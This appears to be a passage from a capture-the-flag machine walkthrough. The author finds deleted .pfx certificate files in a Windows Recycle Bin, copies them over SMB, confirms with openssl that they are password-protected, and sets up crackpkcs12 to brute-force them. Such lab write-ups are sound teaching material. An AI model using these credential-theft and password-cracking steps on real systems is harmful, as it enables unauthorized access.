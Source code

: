     c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>type $IZIX7VV.pfx
    ўp#C:\Users\GinaWild\Desktop\cert.pfx



That's definitely interesting.

### Access Certificate

#### Download

I'll copy all three files into the SMB share:



    c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>copy * \share\
    $IZIX7VV.pfx
    $RLYS3KF.pfx
    $RZIX7VV.pfx
            3 file(s) copied



I'll download the files over SMB and delete them from the share to clean
up after myself.

All three files are just `data`:



    oxdf@hacky$ file \$IZIX7VV.pfx 
    $IZIX7VV.pfx: data
    oxdf@hacky$ file \$RLYS3KF.pfx 
    $RLYS3KF.pfx: data
    oxdf@hacky$ file \$RZIX7VV.pfx 
    $RZIX7VV.pfx: data



Still, knowing the file name, if I try to get information about the
certificate from `openssl` for either `.pfx` file, it asks for a
password:



    oxdf@hacky$ openssl pkcs12 -info -in \$RZIX7VV.pfx -noout
    Enter Import Password:
    MAC: sha1, Iteration 2000
    MAC length: 20, salt length: 20
    Mac verify error: invalid password?
    oxdf@hacky$ openssl pkcs12 -info -in \$RLYS3KF.pfx -noout
    Enter Import Password:
    MAC: sha1, Iteration 2048
    MAC length: 20, salt length: 8
    Mac verify error: invalid password?



#### Crack

There's a tool called
[crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) that will
attempt to brute force these passwords. I'll clone the repo to my host,
and run the install instructions from the README. This installs
`crackpkcs12` in my path so I can use it anywhere.
